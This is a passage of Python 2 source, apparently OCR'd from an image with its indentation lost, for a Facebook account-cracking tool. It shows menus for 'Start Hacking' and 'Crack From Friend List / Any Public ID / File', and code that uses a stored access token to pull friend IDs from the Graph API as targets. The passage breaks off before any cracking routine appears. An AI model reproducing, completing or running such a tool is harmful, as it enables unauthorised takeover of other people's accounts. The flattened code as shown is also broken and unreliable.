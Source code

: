 print 42*"\033[1;96m="
print "\033[1;96m[\033[1;97m✓\033[1;96m]\033[1;93m Name \033[1;91m: \033[1;92m"+nama+"\033[1;97m               "
print "\033[1;96m[\033[1;97m✓\033[1;96m]\033[1;93m ID   \033[1;91m: \033[1;92m"+id+"\x1b[1;97m              "
print 42*"\033[1;96m="
print "\x1b[1;96m[\x1b[1;92m1\x1b[1;96m]\x1b[1;93m Start Hacking"
print "\x1b[1;96m[\x1b[1;91m0\x1b[1;96m]\x1b[1;91m Exit            "
pilih()

def pilih():
unikers = raw_input("\n\033[1;97m >>> \033[1;97m")
if unikers =="":
print "\033[1;96m[!] \x1b[1;91mFill in correctly"
pilih()
elif unikers =="1":
super()
elif unikers =="0":
jalan('Token Removed')
os.system('rm -rf login.txt')
keluar()
else:
print "\033[1;96m[!] \x1b[1;91mFill in correctly"
pilih()

def super():
global toket
os.system('clear')
try:
toket=open('login.txt','r').read()
except IOError:
print"\033[1;96m[!] \x1b[1;91mToken invalid"
os.system('rm -rf login.txt')
time.sleep(1)
login()
os.system('clear')
print logo
print 42*"\033[1;96m="
print "\x1b[1;96m[\x1b[1;92m1\x1b[1;96m]\x1b[1;93m Crack From Friend List"
print "\x1b[1;96m[\x1b[1;92m2\x1b[1;96m]\x1b[1;93m Crack From Any Public ID"
print "\x1b[1;96m[\x1b[1;92m3\x1b[1;96m]\x1b[1;93m Crack From File"
print "\x1b[1;96m[\x1b[1;91m0\x1b[1;96m]\x1b[1;91m Back"
pilih_super()

def pilih_super():
peak = raw_input("\n\033[1;97m >>> \033[1;97m")
if peak =="":
print "\033[1;96m[!] \x1b[1;91mFill in correctly"
pilih_super()
elif peak =="1":
os.system('clear')
print logo
print 42*"\033[1;96m="
jalan('\033[1;96m[✺] \033[1;93mGetting ID \033[1;97m...')
r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
z = json.loads(r.text)
for s in z['data']:
id.append(s['id'])
elif peak =="2":
os.system('clear')
print logo
print 42*"\033[1;96m="
idt = raw_input("\033[1;96m[+] \033[1;93mEnter ID \033[1;91m: \033[1;97m")
try:
jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)